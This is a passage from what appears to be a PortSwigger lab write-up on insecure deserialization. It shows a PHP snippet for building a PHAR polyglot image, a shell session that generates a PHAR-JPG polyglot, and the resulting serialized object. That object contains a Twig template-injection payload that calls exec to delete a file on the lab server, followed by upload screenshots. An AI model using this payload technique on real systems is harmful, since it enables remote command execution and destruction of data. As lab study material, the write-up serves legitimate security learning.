 ```php
/*
// config for gif
$prefix = "\x47\x49\x46\x38\x39\x61" . "\x2c\x01\x2c\x01"; // gif header, size 300 x 300
$tempname = 'temp.phar'; // make it phar
$outfile = 'out.gif';

// make gif
file_put_contents($outfile, generate_base_phar($payload, $prefix));

*/
```

**Generate PHAR JPG polygot:**
```shell
┌[root♥siunam]-(/opt/phar-jpg-polyglot)-[2023.01.13|15:23:56]-[git://master ✗]
└> php -c php.ini phar_jpg_polyglot.php
string(229) "O:14:"CustomTemplate":1:{s:18:"template_file_path";O:4:"Blog":2:{s:4:"user";s:17:"any_user_you_want";s:4:"desc";s:106:"{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("rm /home/carlos/morale.txt")}}";}}"
┌[root♥siunam]-(/opt/phar-jpg-polyglot)-[2023.01.13|15:23:58]-[git://master ✗]
└> ls -lah out.jpg     
-rw-r--r-- 1 root root 132K Jan 13 15:23 out.jpg
```

**Upload it:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Insecure-Deserialization/Deserial-10/images/Pasted%20image%2020230113152517.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Insecure-Deserialization/Deserial-10/images/Pasted%20image%2020230113152530.png)
